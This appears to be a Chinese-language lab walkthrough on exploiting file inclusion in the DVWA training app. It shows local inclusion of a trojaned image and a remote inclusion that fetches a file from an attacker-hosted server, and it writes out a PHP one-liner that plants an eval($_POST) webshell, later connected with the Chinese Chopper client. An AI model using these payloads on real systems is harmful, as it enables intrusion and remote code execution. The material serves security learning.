       # 相对路径
      192.168.50.129/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.JPG
      # 绝对路径
      192.168.50.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/hackable/uploads/shell.JPG
      ```

  - 通过文件包含漏洞访问图片后，页面显示如下

    ![](fileinclusion-test3.png)

    - 通过菜刀连接 webshell

      - 图片中的木马会执行，在`/var/www/dvwa/vulnerabilities/fi/`目录下生成一个 php 文件，使用该 php

    - 参考资料

      - https://blog.csdn.net/Alexz__/article/details/102166392
      - 踩坑，不会成功的情况
        1. 用 edjpgcom 工具
        2. 图片是 jpg

---

  远程文件包含 + webshell

  - 使用 kali 建立远程服务器

    ```bash
    # 启动apache
    systemctl start apache2
    # 建立文件
    vim /var/www/html/1.txt
    <?fputs(fopen("shell.php","w"),'<?php eval($_POST[pass]);?>')?>
    
    # 如果建立的是php文件，会出现一句话木马无法写入shell.php的情况
    # 使用txt或者jpg进行远程文件包含
    ```

  - 文件包含

    http://192.168.50.129/dvwa/vulnerabilities/fi/?page=http://192.168.50.128/1.txt

    此时在/var/www/dvwa/vulnerabilities/fi 目录下会出现 shell.php 文件

  - 菜刀通过输入`http://192.168.50.129/dvwa/vulnerabilities/fi/shell.php`和 pass 密码进行连接

---
